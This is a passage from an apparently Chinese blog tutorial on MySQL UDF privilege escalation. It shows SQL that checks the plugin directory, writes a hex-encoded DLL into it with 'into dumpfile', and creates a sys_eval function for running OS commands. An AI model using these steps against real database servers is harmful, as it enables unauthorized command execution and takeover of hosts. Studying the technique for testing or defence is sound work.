 

![](https://img-blog.csdnimg.cn/2019092223262749.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**二：查看plugin的值**



但是实际测试发现UDF提权成功与否与该值无关。



```
select Host,user,plugin from mysql.user where user = substring_index(user(),'@',1);      
        当 plugin 的值为空时不可提权      
        当 plugin 值为 mysql_native_password 时可通过账户连接提权
```




![](https://img-blog.csdnimg.cn/20190922232744345.png)



**三：查看系统架构以及plugin目录**



```
show variables like '%compile%';             #查看主机版本及架构      
show variables like 'plugin%';               #查看 plugin 目录
```




![](https://img-blog.csdnimg.cn/20190922233030922.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



这里是 x64 位的系统，我们可以去kali中 /usr/share/metasploit-framework/data/exploits/mysql/ 目录下载64位的 .dll 文件。(由于我这里MSF更改过，所以路径有所不同)



![](https://img-blog.csdnimg.cn/20190922233138843.png)



**四：将dll文件写入plugin目录,并且创建函数**



创建一个表并将二进制数据插入到十六进制编码流中。你可以通过insert语句或将其分解为多个部分，然后通过update语句拼接二进制数据。



```
create table temp(data longblob);      
insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);      
update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);      
select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll";      
create function sys_eval returns string soname 'udf.dll';   #创建函数sys_eval
```
